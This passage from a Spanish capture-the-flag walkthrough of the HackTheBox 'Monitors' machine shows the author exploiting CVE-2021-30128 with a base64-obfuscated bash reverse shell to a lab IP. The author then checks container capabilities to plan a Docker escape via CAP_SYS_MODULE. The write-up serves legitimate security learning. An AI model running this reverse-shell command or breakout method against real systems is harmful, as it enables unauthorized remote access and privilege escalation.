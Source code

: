 * [https://github.com/r0ckysec/CVE-2021-30128](https://github.com/r0ckysec/CVE-2021-30128).

---

```bash
❱ python3 cve-2021-30128_exp.py https://localhost:8443 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDYvNDQ1MCAwPiYxCg==}|{base64,-d}|{bash,-i}'
```

![341bash_repo_r0ckysec_30128_revsh](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitors/341bash_repo_r0ckysec_30128_revsh.png)

¡TAMOS DENTRO DEL CONTAINEEEEEEEEEEEEEEEEEEEEER!!

¡Y CON CUALQUIERAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!!

¡Y USANDO ALGO EXTRAÑOOOOOOOOOOOOOOOOOOO DEL ANTERIOR CVEEEEEE!!

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitors/341google_gif_yeahbirthday.gif" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width:100%;"/>

Ahora sí, tomemos agua, estirémonos, pongamos la terminal bonita y a seguir (:

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Buscando en el contenedor había unos archivos medio sospechosos o con nombres interesantes, pero no lograba enfocar algún método de explotación, leyendo esta guía:

* [Docker Breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout).

Tenemos varias opciones para probar contra un contenedor, esto con la idea de escapar de él y llegar al sistema host que lo sostiene...

En una de las pruebas, caemos acá:

* [Docker Breakout - Container Capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#container-capabilities).

En el que buscamos **5** [capabilities](http://www.etl.it.uc3m.es/Linux_Capabilities) en concreto, si el contenedor cuenta con al menos una de ellas, tenemos un vector para escapar de él.

🏃‍♀️ ***You should check the capabilities of the container, if it has any of the following ones, <u>you might be able to scape from it</u>: `CAP_SYS_ADMIN`, `CAP_SYS_PTRACE`, `CAP_SYS_MODULE`, `DAC_READ_SEARCH`, `DAC_OVERRIDE`***.

Para listar las **capabilities** usamos:

```bash
root@9092a1174332:/$ capsh --print
```

![341bash_dockerSH_capshPRINT](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/monitors/341bash_dockerSH_capshPRINT.png)

Opa, vemos una de las 5, `cap_sys_module` y esta activa :O pues sigamos la guía a ver como podemos explotar esta **cap**...

* [Docker Breakout - Container Capabilities - **CAP_SYS_MODULE**](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_sys_module).
